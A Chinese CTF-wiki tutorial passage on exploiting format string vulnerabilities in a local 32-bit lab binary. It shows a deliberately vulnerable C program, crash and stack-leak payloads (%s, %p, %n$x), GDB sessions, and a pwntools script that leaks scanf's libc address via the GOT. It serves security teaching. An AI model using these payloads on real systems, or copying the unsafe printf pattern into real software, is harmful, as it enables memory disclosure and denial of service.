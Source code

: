 .. role:: raw-latex(raw)
   :format: latex
..

格式化字符串漏洞利用
====================

其实，在上一部分，我们展示了格式化字符串漏洞的两个利用手段

-  使程序崩溃，因为%s对应的参数地址不合法的概率比较大。
-  查看进程内容，根据%d，%f输出了栈上的内容。

下面我们会对于每一方面进行更加详细的解释。

程序崩溃
--------

通常来说，利用格式化字符串漏洞使得程序崩溃是最为简单的利用方式，因为我们只需要输入若干个%s即可

.. code:: text

    %s%s%s%s%s%s%s%s%s%s%s%s%s%s

这是因为栈上不可能每个值都对应了合法的地址，所以总是会有某个地址可以使得程序崩溃。这一利用，虽然攻击者本身似乎并不能控制程序，但是这样却可以造成程序不可用。比如说，如果远程服务有一个格式化字符串漏洞，那么我们就可以攻击其可用性，使服务崩溃，进而使得用户不能够访问。

泄露内存
--------

利用格式化字符串漏洞，我们还可以获取我们所想要输出的内容。一般会有如下几种操作

-  泄露栈内存
-  获取某个变量的值
-  获取某个变量对应地址的内存
-  泄露任意地址内存
-  利用GOT表得到libc函数地址，进而获取libc，进而获取其它libc函数地址
-  盲打，dump整个程序，获取有用信息。

泄露栈内存
~~~~~~~~~~

例如，给定如下程序

.. code:: c

    ##include <stdio.h>
    int main() {
      char s[100];
      int a = 1, b = 0x22222222, c = -1;
      scanf("%s", s);
      printf("%08x.%08x.%08x.%s\n", a, b, c, s);
      printf(s);
      return 0;
    }

然后，我们简单编译一下

.. code:: shell

    ➜  leakmemory git:(master) ✗ make           
    gcc -fno-stack-protector -o leakmemory leakmemory.c
    leakmemory.c: In function ‘main’:
    leakmemory.c:7:10: warning: format not a string literal and no format arguments [-Wformat-security]
       printf(s);
              ^

可以看出，编译器指出了我们的程序中没有给出格式化字符串的参数的问题。下面，我们来看一下，如何获取对应的栈内存。

根据C语言的调用规则，格式化字符串函数会根据格式化字符串直接使用栈上自顶向上的变量作为其参数(64位会根据其传参的规则进行获取)。这里我们主要介绍32位。

获取栈变量数值
^^^^^^^^^^^^^^

首先，我们可以利用格式化字符串来获取栈上变量的数值。我们可以试一下，运行结果如下

.. code:: shell

    ➜  leakmemory git:(master) ✗ ./leakmemory
    %08x.%08x.%08x   
    00000001.22222222.ffffffff.%08x.%08x.%08x
    ffcfc400.000000c2.f765a6bb%                           

可以看到，我们确实得到了一些内容。为了更加细致的观察，我们利用GDB来调试一下，以便于验证我们的想法，这里删除了一些不必要的信息，我们只关注代码段以及栈。

首先，启动程序，将断点下载printf函数处

.. code:: shell

    ➜  leakmemory git:(master) ✗ gdb leakmemory
    gef➤  b printf
    Breakpoint 1 at 0x8048330

之后，运行程序

.. code:: shell

    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory 
    %08x.%08x.%08x

此时，程序等待我们的输入，这时我们输入%08x.%08x.%08x，然后敲击回车，是程序继续运行，可以看出程序首先断在了第一次调用printf函数的位置

.. code:: shell

    Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
    28  printf.c: 没有那个文件或目录.
    ────────────────────────────────────────────────[ code:i386 ]────
       0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
       0xf7e4466d                  nop    
       0xf7e4466e                  xchg   ax, ax
     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ──────────────────────────────────────────────[ stack ]────
    ['0xffffccec', 'l8']
    8
    0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20     ← $esp
    0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
    0xffffccf4│+0x08: 0x00000001
    0xffffccf8│+0x0c: 0x22222222
    0xffffccfc│+0x10: 0xffffffff
    0xffffcd00│+0x14: 0xffffcd10  →  "%08x.%08x.%08x"
    0xffffcd04│+0x18: 0xffffcd10  →  "%08x.%08x.%08x"
    0xffffcd08│+0x1c: 0x000000c2

可以看出，此时此时已经进入了printf函数中，栈中第一个变量为返回地址，第二个变量为格式化字符串的地址，第三个变量为a的值，第四个变量为b的值，第五个变量为c的值，第六个变量为我们输入的格式化字符串对应的地址。继续运行程序

.. code:: shell

    gef➤  c
    Continuing.
    00000001.22222222.ffffffff.%08x.%08x.%08x

可以看出，程序确实输出了每一个变量对应的数值，并且断在了下一个printf处

.. code:: shell

    Breakpoint 1, __printf (format=0xffffcd10 "%08x.%08x.%08x") at printf.c:28
    28  in printf.c
    ───────────────────────────────────────────────────────────────[ code:i386 ]────
       0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
       0xf7e4466d                  nop    
       0xf7e4466e                  xchg   ax, ax
     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ────────────────────────────────────────────────────────[ stack ]────
    ['0xffffccfc', 'l8']
    8
    0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
    0xffffcd00│+0x04: 0xffffcd10  →  "%08x.%08x.%08x"
    0xffffcd04│+0x08: 0xffffcd10  →  "%08x.%08x.%08x"
    0xffffcd08│+0x0c: 0x000000c2
    0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
    0xffffcd10│+0x14: "%08x.%08x.%08x"   ← $eax
    0xffffcd14│+0x18: ".%08x.%08x"
    0xffffcd18│+0x1c: "x.%08x"

此时，由于格式化字符串为%x%x%x，所以，程序 会将栈上的0xffffcd04及其之后的数值分别作为第一，第二，第三个参数按照int型进行解析，分别输出。继续运行，我们可以得到如下结果去，确实和想象中的一样。

.. code:: shell

    gef➤  c
    Continuing.
    ffffcd10.000000c2.f7e8b6bb[Inferior 1 (process 57077) exited normally]

当然，我们也可以使用%p来获取数据，如下

.. code:: python

    %p.%p.%p
    00000001.22222222.ffffffff.%p.%p.%p
    0xfff328c0.0xc2.0xf75c46bb%    

这里需要注意的是，并不是每次得到的结果都一样 ，因为栈上的数据会因为每次分配的内存页不同而有所不同，这是因为栈是不对内存页做初始化的。

**需要注意的是，我们上面给出的方法，都是依次获得栈中的每个参数，我们有没有办法直接获取栈中被视为第n+1个参数的值呢**\ ？肯定是可以的啦。方法如下

.. code:: text

    %n$x

利用如下的字符串，我们就可以获取到对应的第n+1个参数的数值。为什么这里要说是对应第n+1个参数呢？这是因为格式化参数里面的n指的是该格式化字符串对应的第n个输出参数，那相对于输出函数来说，就是第n+1个参数了。

这里我们再次以gdb调试一下。

.. code:: shell

    ➜  leakmemory git:(master) ✗ gdb leakmemory
    gef➤  b printf
    Breakpoint 1 at 0x8048330
    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory 
    %3$x

    Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
    28  printf.c: 没有那个文件或目录.

    ─────────────────────────────────────────────────[ code:i386 ]────
       0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
       0xf7e4466d                  nop    
       0xf7e4466e                  xchg   ax, ax
     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ─────────────────────────────────────────────────────[ stack ]────
    ['0xffffccec', 'l8']
    8
    0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20     ← $esp
    0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
    0xffffccf4│+0x08: 0x00000001
    0xffffccf8│+0x0c: 0x22222222
    0xffffccfc│+0x10: 0xffffffff
    0xffffcd00│+0x14: 0xffffcd10  →  "%3$x"
    0xffffcd04│+0x18: 0xffffcd10  →  "%3$x"
    0xffffcd08│+0x1c: 0x000000c2
    gef➤  c
    Continuing.
    00000001.22222222.ffffffff.%3$x

    Breakpoint 1, __printf (format=0xffffcd10 "%3$x") at printf.c:28
    28  in printf.c
    ─────────────────────────────────────────────────────[ code:i386 ]────
       0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
       0xf7e4466d                  nop    
       0xf7e4466e                  xchg   ax, ax
     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ─────────────────────────────────────────────────────[ stack ]────
    ['0xffffccfc', 'l8']
    8
    0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
    0xffffcd00│+0x04: 0xffffcd10  →  "%3$x"
    0xffffcd04│+0x08: 0xffffcd10  →  "%3$x"
    0xffffcd08│+0x0c: 0x000000c2
    0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
    0xffffcd10│+0x14: "%3$x"     ← $eax
    0xffffcd14│+0x18: 0xffffce00  →  0x00000001
    0xffffcd18│+0x1c: 0x000000e0
    gef➤  c
    Continuing.
    f7e8b6bb[Inferior 1 (process 57442) exited normally]

可以看出，我们确实获得了printf的第4个参数所对应的值f7e8b6bb。

获取栈变量对应字符串
^^^^^^^^^^^^^^^^^^^^

此外，我们还可以获得栈变量对应的字符串，这其实就是需要用到%s了。这里还是使用上面的程序，进行gdb调试，如下

.. code:: shell

    ➜  leakmemory git:(master) ✗ gdb leakmemory
    gef➤  b printf
    Breakpoint 1 at 0x8048330
    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory 
    %s

    Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
    28  printf.c: 没有那个文件或目录.
    ────────────────────────────────────────────────────────────────[ code:i386 ]────
       0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
       0xf7e4466d                  nop    
       0xf7e4466e                  xchg   ax, ax
     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ────────────────────────────────────────────────────────[ stack ]────
    ['0xffffccec', 'l8']
    8
    0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20     ← $esp
    0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
    0xffffccf4│+0x08: 0x00000001
    0xffffccf8│+0x0c: 0x22222222
    0xffffccfc│+0x10: 0xffffffff
    0xffffcd00│+0x14: 0xffffcd10  →  0xff007325 ("%s"?)
    0xffffcd04│+0x18: 0xffffcd10  →  0xff007325 ("%s"?)
    0xffffcd08│+0x1c: 0x000000c2
    gef➤  c
    Continuing.
    00000001.22222222.ffffffff.%s

    Breakpoint 1, __printf (format=0xffffcd10 "%s") at printf.c:28
    28  in printf.c
    ──────────────────────────────────────────────────────────[ code:i386 ]────
       0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
       0xf7e4466d                  nop    
       0xf7e4466e                  xchg   ax, ax
     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ──────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffccfc', 'l8']
    8
    0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
    0xffffcd00│+0x04: 0xffffcd10  →  0xff007325 ("%s"?)
    0xffffcd04│+0x08: 0xffffcd10  →  0xff007325 ("%s"?)
    0xffffcd08│+0x0c: 0x000000c2
    0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
    0xffffcd10│+0x14: 0xff007325 ("%s"?)     ← $eax
    0xffffcd14│+0x18: 0xffffce3c  →  0xffffd074  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
    0xffffcd18│+0x1c: 0x000000e0
    gef➤  c
    Continuing.
    %s[Inferior 1 (process 57488) exited normally]

可以看出，在第二次执行printf函数的时候，确实是将0xffffcd04处的变量视为字符串变量，输出了其数值所对应的地址处的字符串。

**当然，并不是所有这样的都会正常运行，如果对应的变量不能够被解析为字符串地址，那么，程序就会直接崩溃。**

此外，我们也可以指定获取栈上第几个参数作为格式化字符串输出，比如我们指定第printf的第3个参数，如下，此时程序就不能够解析，就崩溃了。

.. code:: shell

    ➜  leakmemory git:(master) ✗ ./leakmemory
    %2$s
    00000001.22222222.ffffffff.%2$s
    [1]    57534 segmentation fault (core dumped)  ./leakmemory

**小技巧总结**

    1. 利用%x来获取对应栈的内存，但建议使用%p，可以不用考虑位数的区别。
    2. 利用%s来获取变量所对应地址的内容，只不过有零截断。
    3. 利用%order$x来获取指定参数的值，利用%order$s来获取指定参数对应地址的内容。

泄露任意地址内存
~~~~~~~~~~~~~~~~

可以看出，在上面无论是泄露栈上连续的变量，还是说泄露指定的变量值，我们都没能完全控制我们所要泄露的变量的地址。这样的泄露固然有用，可是却不够强力有效。有时候，我们可能会想要泄露某一个libc函数的got表内容，从而得到其地址，进而获取libc版本以及其他函数的地址，这时候，能够完全控制泄露某个指定地址的内存就显得很重要了。那么我们究竟能不能这样做呢？自然也是可以的啦。

我们再仔细回想一下，一般来说，在格式化字符串漏洞中，我们所读取的格式化字符串都是在栈上的。那么也就是说，在调用输出函数的时候，其实，第一个参数的值其实就是该格式化字符串的地址。我们选择上面的某个函数调用为例

.. code:: shell

    Breakpoint 1, __printf (format=0xffffcd10 "%s") at printf.c:28
    28  in printf.c
    ──────────────────────────────────────────────────────────[ code:i386 ]────
       0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
       0xf7e4466d                  nop    
       0xf7e4466e                  xchg   ax, ax
     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ──────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffccfc', 'l8']
    8
    0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
    0xffffcd00│+0x04: 0xffffcd10  →  0xff007325 ("%s"?)
    0xffffcd04│+0x08: 0xffffcd10  →  0xff007325 ("%s"?)
    0xffffcd08│+0x0c: 0x000000c2
    0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
    0xffffcd10│+0x14: 0xff007325 ("%s"?)     ← $eax
    0xffffcd14│+0x18: 0xffffce3c  →  0xffffd074  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
    0xffffcd18│+0x1c: 0x000000e0

可以看出在栈上的第二个变量就是我们的格式化字符串地址0xffffcd10，同时该地址存储的也确实是是"%s"格式化字符串内容。

那么由于我们可以控制该格式化字符串，如果我们知道该格式化字符串在输出函数调用时是第几个参数，这里假设该格式化字符串相对函数调用为第k个参数。那我们就可以通过如下的方式来获取某个指定地址addr的内容。

::

    addr%k$s

    注： 在这里，如果格式化字符串在栈上，那么我们就一定确定格式化字符串的相对偏移，这是因为在函数调用的时候栈指针至少低于格式化字符串地址8字节或者16字节。

下面就是如何确定该格式化字符串为第几个参数的问题了，我们可以通过如下方式确定

.. code:: text

    [tag]%p%p%p%p%p%p...

一般来说，我们会重复某个字符的机器字长来作为tag，而后面会跟上若干个%p来输出栈上的内容，如果内容与我们前面的tag重复了，那么我们就可以有很大把握说明该地址就是格式化字符串的地址，之所以说是有很大把握，这是因为不排除栈上有一些临时变量也是该数值。一般情况下，极其少见，我们也可以更换其他字符进行尝试，进行再次确认。这里我们利用字符'A'作为特定字符，同时还是利用之前编译好的程序，如下

.. code:: shell

    ➜  leakmemory git:(master) ✗ ./leakmemory
    AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
    00000001.22222222.ffffffff.AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
    AAAA0xffaab1600xc20xf76146bb0x414141410x702570250x702570250x702570250x702570250x702570250x702570250x702570250x70250xffaab2240xf77360000xaec7% 

由0x41414141处所在的位置可以看出我们的格式化字符串的起始地址正好是输出函数的第5个参数，但是是格式化字符串的第4个参数。我们可以来测试一下

.. code:: shell

    ➜  leakmemory git:(master) ✗ ./leakmemory
    %4$s
    00000001.22222222.ffffffff.%4$s
    [1]    61439 segmentation fault (core dumped)  ./leakmemory

可以看出，我们的程序崩溃了，为什么呢？这是因为我们试图将该格式化字符串所对应的值作为地址进行解析，但是显然该值没有办法作为一个合法的地址被解析，，所以程序就崩溃了。具体的可以参考下面的调试。

.. code:: shell

     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ───────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffcd0c', 'l8']
    8
    0xffffcd0c│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
    0xffffcd10│+0x04: 0xffffcd20  →  "%4$s"
    0xffffcd14│+0x08: 0xffffcd20  →  "%4$s"
    0xffffcd18│+0x0c: 0x000000c2
    0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
    0xffffcd20│+0x14: "%4$s"     ← $eax
    0xffffcd24│+0x18: 0xffffce00  →  0x00000000
    0xffffcd28│+0x1c: 0x000000e0
    ───────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0xf7e44670 → Name: __printf(format=0xffffcd20 "%4$s")
    [#1] 0x80484ce → Name: main()
    ────────────────────────────────────────────────────────────────────────────────
    gef➤  help x/
    Examine memory: x/FMT ADDRESS.
    ADDRESS is an expression for the memory address to examine.
    FMT is a repeat count followed by a format letter and a size letter.
    Format letters are o(octal), x(hex), d(decimal), u(unsigned decimal),
      t(binary), f(float), a(address), i(instruction), c(char), s(string)
      and z(hex, zero padded on the left).
    Size letters are b(byte), h(halfword), w(word), g(giant, 8 bytes).
    The specified number of objects of the specified size are printed
    according to the format.

    Defaults for format and size letters are those previously used.
    Default count is 1.  Default address is following last thing printed
    with this command or "print".
    gef➤  x/x 0xffffcd20
    0xffffcd20: 0x73243425
    gef➤  vmmap 
    Start      End        Offset     Perm Path
    0x08048000 0x08049000 0x00000000 r-x /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
    0x08049000 0x0804a000 0x00000000 r-- /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
    0x0804a000 0x0804b000 0x00001000 rw- /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
    0x0804b000 0x0806c000 0x00000000 rw- [heap]
    0xf7dfb000 0xf7fab000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so
    0xf7fab000 0xf7fad000 0x001af000 r-- /lib/i386-linux-gnu/libc-2.23.so
    0xf7fad000 0xf7fae000 0x001b1000 rw- /lib/i386-linux-gnu/libc-2.23.so
    0xf7fae000 0xf7fb1000 0x00000000 rw- 
    0xf7fd3000 0xf7fd5000 0x00000000 rw- 
    0xf7fd5000 0xf7fd7000 0x00000000 r-- [vvar]
    0xf7fd7000 0xf7fd9000 0x00000000 r-x [vdso]
    0xf7fd9000 0xf7ffb000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.23.so
    0xf7ffb000 0xf7ffc000 0x00000000 rw- 
    0xf7ffc000 0xf7ffd000 0x00022000 r-- /lib/i386-linux-gnu/ld-2.23.so
    0xf7ffd000 0xf7ffe000 0x00023000 rw- /lib/i386-linux-gnu/ld-2.23.so
    0xffedd000 0xffffe000 0x00000000 rw- [stack]
    gef➤  x/x 0x73243425
    0x73243425: Cannot access memory at address 0x73243425

显然0xffffcd20处所对应的格式化字符串所对应的变量值0x73243425并不能够被改程序访问，所以程序就自然崩溃了。

那么如果我们设置一个可访问的地址呢？比如说scanf@got，结果会怎么样呢？应该自然是输出scanf对应的地址了。我们不妨来试一下。

首先，获取scanf@got的地址，如下

    这里之所以没有使用printf函数，是因为scanf函数会对0a，0b，0c，00等字符有一些奇怪的处理，，导致无法正常读入，，感兴趣的可以试试。。。。

.. code:: shell

    gef➤  got

    /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory：     文件格式 elf32-i386

    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE 
    08049ffc R_386_GLOB_DAT    __gmon_start__
    0804a00c R_386_JUMP_SLOT   printf@GLIBC_2.0
    0804a010 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
    0804a014 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7

下面我们利用pwntools构造payload如下

.. code:: python

    from pwn import *
    sh = process('./leakmemory')
    leakmemory = ELF('./leakmemory')
    __isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
    print hex(__isoc99_scanf_got)
    payload = p32(__isoc99_scanf_got) + '%4$s'
    print payload
    gdb.attach(sh)
    sh.sendline(payload)
    sh.recvuntil('%4$s\n')
    print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
    sh.interactive()

其中，我们使用gdb.attach(sh)来进行调试。当我们运行到第二个printf函数的时候(记得下断点)，可以看到我们的第四个参数确实指向我们的scanf的地址，这里输出

.. code:: python

     → 0xf7615670 <printf+0>       call   0xf76ebb09 <__x86.get_pc_thunk.ax>
       ↳  0xf76ebb09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf76ebb0c <__x86.get_pc_thunk.ax+3> ret    
          0xf76ebb0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf76ebb10 <__x86.get_pc_thunk.dx+3> ret    
    ───────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffbbf8dc', 'l8']
    8
    0xffbbf8dc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
    0xffbbf8e0│+0x04: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
    0xffbbf8e4│+0x08: 0xffbbf8f0  →  0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp
    0xffbbf8e8│+0x0c: 0x000000c2
    0xffbbf8ec│+0x10: 0xf765c6bb  →  <handle_intel+107> add esp, 0x10
    0xffbbf8f0│+0x14: 0x0804a014  →  0xf76280c0  →  <__isoc99_scanf+0> push ebp  ← $eax
    0xffbbf8f4│+0x18: "%4$s"
    0xffbbf8f8│+0x1c: 0x00000000

同时，在我们运行的terminal下

.. code:: python

    ➜  leakmemory git:(master) ✗ python exploit.py
    [+] Starting local process './leakmemory': pid 65363
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    0x804a014
    \x14\xa0\x0%4$s
    [*] running in new terminal: /usr/bin/gdb -q  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory" 65363
    [+] Waiting for debugger: Done
    0xf76280c0
    [*] Switching to interactive mode
    [*] Process './leakmemory' stopped with exit code 0 (pid 65363)
    [*] Got EOF while reading in interactiv

我们确实得到了scanf的地址。

但是，并不是说所有的偏移机器字长的整数倍，可以让我们直接相应参数来获取，有时候，我们需要对我们输入的格式化字符串进行填充，来使得我们想要打印的地址内容的地址位于机器字长整数倍的地址处，一般来说，类似于下面的这个样子。

.. code:: text

    [padding][addr]

注意

